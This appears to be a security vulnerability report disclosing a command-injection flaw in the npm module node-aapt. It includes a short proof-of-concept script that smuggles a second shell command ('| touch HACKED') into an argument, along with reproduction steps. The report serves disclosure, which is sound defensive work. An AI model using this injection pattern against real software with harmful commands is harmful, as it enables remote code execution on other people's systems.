 # :bug: Description

The `node-aapt` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const packageInfo = require('node-aapt');
packageInfo('test | touch HACKED ', function(err){console.log()});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i node-aapt # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created 

